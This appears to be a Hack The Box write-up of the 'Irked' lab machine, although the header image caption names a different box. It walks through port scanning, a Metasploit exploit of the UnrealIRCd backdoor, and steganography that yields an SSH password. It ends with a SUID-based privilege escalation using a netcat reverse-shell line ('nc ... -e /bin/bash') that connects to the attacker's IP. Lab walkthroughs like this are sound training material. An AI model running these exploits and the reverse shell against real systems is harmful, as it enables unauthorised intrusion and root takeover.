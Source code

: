 ![HTB Teacher (10.10.10.153) Write-up](./screenshots/irked.jpeg)

## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.117
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8000/tcp  open  http-alt
8067/tcp  open  infi-async
46040/tcp open  unknown
65534/tcp open  unknown
```
```console
nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117
```
```
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open   rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          35800/tcp  status
|_  100024  1          56850/udp  status
6697/tcp  open   ircs-u?
|_irc-info: Unable to open connection
8000/tcp  closed http-alt
8067/tcp  open   infi-async?
|_irc-info: Unable to open connection
46040/tcp closed unknown
65534/tcp open   unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## PART 2 : Port Enumeration

1. Open http://10.10.10.117 (default: __port 80__)
   - Landing Page: 

     ![Landing Page](./screenshots/80_irked.png)

   - Page Source:
     ```html
     <img src=irked.jpg>
     <br>
     <b><center>IRC is almost working!</b></center>
     ```
   __Notes__:
   - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
   - The pages also only contains an image (__*irked.jpg*__)
   - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

---

## PART 3 : Generate User Shell
1. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     msfconsole
     
     use exploit/unix/irc/unreal_ircd_3281_backdoor

     show options
     # Name    Current Setting  Required  Description
     # ----    ---------------  --------  -----------
     # RHOSTS                   yes       The target address range or CIDR identifier
     # RPORT   6667             yes       The target port (TCP)

     set RHOSTS 10.10.10.117
     set RPORT 6697

     run
     # [*] Started reverse TCP double handler on 10.10.15.122:4444 
     # [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
     #     :irked.htb NOTICE AUTH :*** Looking up your hostname...
     # [*] 10.10.10.117:6697 - Sending backdoor command...
     # [*] Accepted the first client connection...
     # [*] Accepted the second client connection...
     # [*] Command: echo 4JezGWGL0WskDMqt;
     # [*] Writing to socket A
     # [*] Writing to socket B
     # [*] Reading from sockets...
     # [*] Reading from socket A
     # [*] A: "4JezGWGL0WskDMqt\r\n"
     # [*] Matching...
     # [*] B is input...
     # [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...
     ```
   - While inside shell:
     ```console
     id
     # uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     cd /home/djmardov
     cd Documents
     ls -lah
     # drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
     # drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
     # -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
     # -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     cat .backup
     # Super elite steg backup pw
     # UPupDOWNdownLRlrBAbaSSss
     ```
   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ from the http service

2. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```
3. Login via SSH as user __djmardov__
   ```console
   ssh -l djmardov 10.10.10.117
   # djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG
   ```
   While inside shell:
   ```console
   cat ~/Documents/user.txt
   # 4a66a78b12dc0e661a59d3f5c0267a8e
   ```

---

## PART 4 : Privilege Escalation (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   find / -uid 0 -perm -4000 -type f 2>/dev/null
   # ...
   # /usr/bin/viewuser
   # ...
   ```
2. Try to run __*/usr/bin/viewuser*__
   ```
   This application is being devleoped to set and test user permissions
   It is still being actively developed
   (unknown) :0           2019-04-27 13:17 (:0)
   djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
   sh: 1: /tmp/listusers: not found
   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file does not yet exist in the system
     - __*/tmp/listusers*__ will be run as root no matter who owns it
3. Create payload:
   ```console
   echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
4. Establish __root__ shell:
   1. Local terminal:
      ```console
      nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      id 
      # uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      find / -name root.txt
      # /root/root.txt

      cat /root/root.txt
      # 8d8e9e8be64654b6dccc3bff4522daf3
      ```
